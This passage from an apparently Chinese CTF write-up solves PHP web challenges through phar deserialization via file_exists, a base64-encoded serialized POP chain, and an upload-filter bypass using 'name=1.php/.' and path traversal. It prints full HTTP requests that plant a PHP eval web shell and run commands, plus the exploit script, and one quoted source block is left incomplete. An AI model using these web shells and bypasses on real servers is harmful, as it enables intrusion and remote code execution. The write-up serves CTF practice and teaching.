



atg后缀，那就把phar文件后缀改成atg后缀，然后我们需要注意我们怎么触发这个phar反序列化

```php
if (file_exists($_GET['filename'])){
        echo "Focus on the previous step!<br>";
    }
```

这里有file_exists函数，可以触发phar的反序列化，那么我们上传我们的phar文件，`phar://`协议流可被file_exists()函数直接触发，并且反序列化成功。



然后我们在class.php页面使用phar伪协议去读取文件触发反序列化



然后我们post传入wow进行RCE就行



```
POST /class.php?filename=phar://uploads/phar.atg HTTP/1.1
Host: 127.0.0.1:50063
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

wow=cat /fl*
```

好像这一道题是有非预期的

非预期解是base64_encode()五次，并且直接传参filename。

```php
<?php
//yesterday::__destruct()->today::__call()->future::__toString()
function best64_decode($str)
{
    return base64_encode(base64_encode(base64_encode(base64_encode(base64_encode($str)))));
}
class yesterday{
    public $learn;
    public $study="study";
    public $try;
}
class today{
    public $doing;
    public $did;
    public $done;
}
class future{
    private $impossible="How can you get here?<br>";
    private $out;
    private $no;
}

$a = new yesterday();
$a -> study = new today();
$a -> study -> doing = new future();
echo best64_decode(serialize($a));
```

因为题目中会对传入的filename进行一个截断四个字符，所以我们在末尾随便加上四个字符

直接获取shell。然后wow用POST传参，就是一句话木马

```
POST /class.php?filename=Vm10b2QyUnJOVlpQV0VKVVlXeGFhRll3VlRCa01XUnpZVVYwYUUxWGVGcFpWRXB6VlVkR2NrMUVTbUZXUlRWUFZHMXpNVlpYU1hsaVIyeFRUVlp3ZGxkVVNYZE5SMFpXVDBoa1QxSkhVbkZhVnpBMFpVWlJlV0pGZEd4aVZrcEtWbTB4TUdKR1ZYZGhlazVYVTBoQ01sUldWVFZqUms1eFVXMXNUbUpGY0haWGJGcFBVMnMxY2sxVVdtcFNSMUp4V2xjd05HVkdVWGxpUlhSb1RXdHNOVmxyYUZkWlYxWldZWHBPVjFOSVFqSlVWM00xWTBaT2RFMVhkRmhTYTJ3MFYxUkplRlp0UmxaUFdFWlZWa1p3YzFSVVFYZE5iRkpYVlcwMVQyRXllSFZWVnpCNFlURmtSMU5ZYUZwTmFrWlhWVlprUjFkRk1WbGFSMnhPVFVSVk1sZFdXbXRUTWsxNFkwWlNWRlpIVW5GYVZ6QTFUbFpTYzFWdVdtaFdhelZKVkRGU1QxTnNTWGRPVnpsYVlsZDRSRlJzWkVwbGJGcFlXa2RHVG1KR2JETlZNVlpyWWpKS1NGUnVVbGRWZW14U1ZXcENkMDVXVmtoaVJYQlBUV3MwTWxscVRtOVViRnBJVDFoQ1VsWlhVbWhVVm1SVFUxWmFkV0pIUmxaV1ZXOTVWMnRhYjFWdFJsWlBTR1JQVWtkU2NWcFhNRFZPUmxKV1ZXNWFhRlpWV2tsV01uQkhZVEZPUjFkcVZsaGlSVnBFV2taa1MwNVdUbFZhUmxab1lteEZNVmRVVG5ka2JWWnlUMWhDVkdKWVVtOVdha1pIWTBaU05sRlVRazlOYXpReVdXNXdRMVZIUmxaalNFcGFZV3RyZUZsclZuTmpWMUpHVDFaQ1RtVnJXVEpXUkVwM1ZHczFjbUpJVmxaaWJYaHpWbFJDY2sweFdraGpSRUpRVlZRd09RPT0=1111 HTTP/1.1
Host: 127.0.0.1:58609
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

wow=whoami
```



# **什么文件上传？（复仇）**

打法是一样的，不过修复了上面的非预期，直接打就行，但是最后的flag并不在目录下而是在环境变量中



# **(ez)upload**

这个题目当时打比赛的时候就一直卡着，用了方法都不得行，复现后重新做一下看看

先扫描个目录看看有没有源码泄露

```
[18:48:19] Scanning:
[18:48:38] 200 -   419B - /index.php
[18:48:38] 200 -   419B - /index.php.bak
[18:48:48] 200 -    30B - /upload.php
[18:48:48] 403 -   548B - /uploads/
[18:48:48] 301 -   162B - /uploads  ->  http://127.0.0.1/uploads/
```

只是发现了index的源码，没看到upload的源码，但是可以猜测一下bak后缀的upload文件的源码有没有

结果还真有

```php
<?php
define('UPLOAD_PATH', __DIR__ . '/uploads/');
$is_upload = false;
$msg = null;
$status_code = 200; // 默认状态码为 200
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php", "php5", "php4", "php3", "php2", "html", "htm", "phtml", "pht", "jsp", "jspa", "jspx", "jsw", "jsv", "jspf", "jtml", "asp", "aspx", "asa", "asax", "ascx", "ashx", "asmx", "cer", "swf", "htaccess");

        if (isset($_GET['name'])) {//检查name参数是否存在
            $file_name = $_GET['name'];
        } else {
            $file_name = basename($_FILES['name']['name']);//不存在则提取原始文件名
        }
        $file_ext = pathinfo($file_name, PATHINFO_EXTENSION);//使用pathinfo提取文件名扩展名，PATHINFO_EXTENSION 是常量，表示只返回扩展名部分。

        if (!in_array($file_ext, $deny_ext)) {//检查文件扩展名 $file_ext 是否不在黑名单 $deny_ext
            $temp_file = $_FILES['name']['tmp_name'];//$temp_file 获取上传文件的临时存储路径
            $file_content = file_get_contents($temp_file);//读取临时文件的全部内容到 $file_content。
正则表达式有误，应该是 /<.+?>/s才对
                $msg = '文件内容包含非法字符，禁止上传！';
                $status_code = 403; // 403 表示禁止访问
            } else {//移动文件到指定目录下
                $img_path = UPLOAD_PATH . $file_name;
                if (move_uploaded_file($temp_file, $img_path)) {
                    $is_upload = true;
                    $msg = '文件上传成功！';
                } else {
                    $msg = '上传出错！';
                    $status_code = 500; // 500 表示服务器内部错误
                }
            }
        } else {
            $msg = '禁止保存为该类型文件！';
            $status_code = 403; // 403 表示禁止访问
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
        $status_code = 404; // 404 表示资源未找到
    }
}

// 设置 HTTP 状态码
http_response_code($status_code);

// 输出结果
echo json_encode([
    'status_code' => $status_code,
    'msg' => $msg,
]);
```

## pathinfo漏洞

我们重点关注一下移动文件的操作

```php
$img_path = UPLOAD_PATH . $file_name;
move_uploaded_file($temp_file, $img_path)
```

这里的话会将文件从临时存储目录移动到指定目录，并把文件名保存给file_name参数，也就是我们get传入的name值

我们这里是一定要进行get传参name的，因为这里有

```
$file_name = basename($_FILES['name']['name']);
```

如果不传入name参数就会按照原始文件名处理

然后我们这里可以关注到，在检测黑名单后缀名的时候是有一个pathinfo()函数的，这个函数我之前看到是有一个漏洞的，例如`1.php\.`的话这里会因为pathinfo()检测机制问题导致pathinfo函数返回后缀名（最后一个点号后面的字符串）的时候会去除 / 和 \ 。然后导致该函数返回值为空，从而1.php可以成功绕过后缀名

我们还需要关注到这里在检测后缀名之后就会有move_uploaded_file($temp_file, $img_path)的操作

然后我翻找到一篇文章

参考文章：[从0CTF一道题看move_uploaded_file的一个细节问题](https://www.anquanke.com/post/id/103784)

所以在进行目录跳转后这个函数的判断就出问题或者说失效了，可以实现文件覆盖，再结合我们之前分析的内容，最终的payload就是

```
POST /upload.php?name=a/../2.php/. HTTP/1.1
Host: 127.0.0.1:59393
Content-Length: 316
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1:59393
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4E5cFglyBvxrlbmU
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:59393/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundary4E5cFglyBvxrlbmU
Content-Disposition: form-data; name="name"; filename="shell.png"
Content-Type: text/plain

<?php eval($_POST['cmd']);?>
------WebKitFormBoundary4E5cFglyBvxrlbmU
Content-Disposition: form-data; name="submit"

上传文件
------WebKitFormBoundary4E5cFglyBvxrlbmU--

```

之前做了目录的探测，文件会保存至uploads的文件目录下，发包后我们访问/uploads/2.php，页面空白说明马写进去了，执行rce试一下



成功执行，所以我们写马成功了，flag在环境变量中

但是上面其实是为了进行文件覆盖才这样打，例如这里本来是没有1.php的，所以可以直接打`1.php/.`

```
POST /upload.php?name=1.php/. HTTP/1.1
Host: 127.0.0.1:53357
Content-Length: 313
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1:53357
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryksZafED3oB2uRSSt
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:53357/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryksZafED3oB2uRSSt
Content-Disposition: form-data; name="name"; filename="1.png"
Content-Type: text/plain

<?php eval($_POST['cmd']); ?>
------WebKitFormBoundaryksZafED3oB2uRSSt
Content-Disposition: form-data; name="submit"

上传文件
------WebKitFormBoundaryksZafED3oB2uRSSt--

```

并且这个目录我们是可控的，例如我们传如`../1.php/.`的话，文件是会保存到跟uploads同级目录下的
